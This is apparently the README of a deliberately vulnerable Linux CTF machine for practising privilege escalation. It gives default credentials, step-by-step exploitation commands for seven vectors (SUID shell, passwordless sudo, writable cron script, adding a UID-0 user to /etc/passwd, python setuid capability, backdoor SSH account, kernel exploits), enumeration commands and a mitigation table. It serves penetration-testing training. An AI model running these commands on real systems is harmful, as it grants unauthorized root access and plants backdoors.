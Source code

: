# Linux Privilege Escalation CTF Machine

![CTF Level](https://img.shields.io/badge/Level-Medium-orange)
![Platform](https://img.shields.io/badge/Platform-Linux-lightgrey)
![Category](https://img.shields.io/badge/Category-PrivEsc-blue)

A deliberately vulnerable Linux machine with multiple privilege escalation vectors. Perfect for practicing penetration testing skills in a controlled environment.

## Table of Contents
1. [Machine Overview](#machine-overview)
2. [Privilege Escalation Methods](#privilege-escalation-methods)
   - [1. SUID Binary](#1-suid-binary)
   - [2. Sudo Misconfiguration](#2-sudo-misconfiguration)
   - [3. Cron Job](#3-cron-job)
   - [4. Writable /etc/passwd](#4-writable-etcpasswd)
   - [5. Capabilities](#5-capabilities)
   - [6. SSH Backdoor](#6-ssh-backdoor)
   - [7. Kernel Exploits](#7-kernel-exploits)
3. [Setup Instructions](#setup-instructions)
4. [Exploitation Walkthrough](#exploitation-walkthrough)
5. [Mitigation Guide](#mitigation-guide)

## Machine Overview

**Difficulty**: Medium  
**Learning Objectives**:
- Identify multiple privilege escalation vectors
- Practice Linux system enumeration
- Understand security misconfigurations
- Learn proper mitigation techniques

**Default Credentials**:
- User: `hacker`
- Password: `Password123!`

## Privilege Escalation Methods

### 1. SUID Binary
**Location**: `/usr/bin/suid-sh`  
**Vulnerability**: Custom SUID binary that executes bash with root privileges  
**Exploitation**:
```bash
/usr/bin/suid-sh
```
Why it works: The binary has the SUID bit set and is owned by root.

### 2. Sudo Misconfiguration

Location: /etc/sudoers
Vulnerability: All users can run any command as root without a password

#### Exploitation:
```bash
sudo su
```
Why it works: The NOPASSWD: ALL directive in sudoers file.

### 3. Cron Job

Location: /etc/cron.d/backdoor
Vulnerability: World-writable script executed by root every minute

#### Exploitation:
```Bash
echo 'chmod 4755 /bin/bash' > /opt/backdoor.sh
# Wait 1 minute
/bin/bash -p
```
Why it works: Cron runs as root and executes our malicious script.

### 4. Writable /etc/passwd

Location: /etc/passwd
Vulnerability: World-writable system file

#### Exploitation:
```Bash
openssl passwd -1 -salt abc Password123
echo 'root2:$1$abc$TKhNXK5ZJBXvJ9XqFn1nq.:0:0:root:/root:/bin/bash' >> /etc/passwd
su root2
```
Why it works: We can add a new root user.

### 5. Capabilities

Location: Python binary
Vulnerability: cap_setuid capability set

#### Exploitation:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
Why it works: Python can elevate privileges due to its capabilities.

### 6. SSH Backdoor

Location: SSH service
Vulnerability: Pre-configured backdoor account
#### Exploitation:
```Bash
ssh hacker@<IP>
```
Why it works: Weak credentials and allowed SSH access.
### 7. Kernel Exploits

Location: /tmp/dirtypipe and /tmp/dirtycow
Vulnerability: Unpatched kernel vulnerabilities

#### Exploitation:
```Bash
# If kernel is vulnerable:
/tmp/dirtypipe
# or
/tmp/dirtycow
```
Why it works: Kernel vulnerabilities allow privilege escalation.
#### Setup Instructions
#### Using Vagrant
```bash
vagrant up
vagrant ssh
```
#### Exploitation Walkthrough

    Initial Access:
    ```Bash
    ssh hacker@<IP>  # Password: Password123!
    ```
### Enumeration:
```Bash
find / -perm -4000 2>/dev/null      # Check SUID binaries
sudo -l                             # Check sudo permissions
cat /etc/crontab                    # Check cron jobs
ls -la /etc/passwd                  # Check file permissions
getcap -r / 2>/dev/null             # Check capabilities
uname -a                            # Check kernel version
```
### Choose an Exploit Method from the list above.

#### Mitigation Guide
~~~
Vulnerability	         | Secure Configuration
SUID Binary	            | chmod u-s /usr/bin/suid-sh
Sudo Misconfig	         | Remove NOPASSWD: ALL from /etc/sudoers
Cron Job	               | chmod 700 /opt/backdoor.sh
/etc/passwd	            | chmod 644 /etc/passwd
Capabilities	         | setcap -r $(which python3)
SSH Backdoor	         | userdel -r hacker
Kernel	Update system: | apt update && apt upgrade
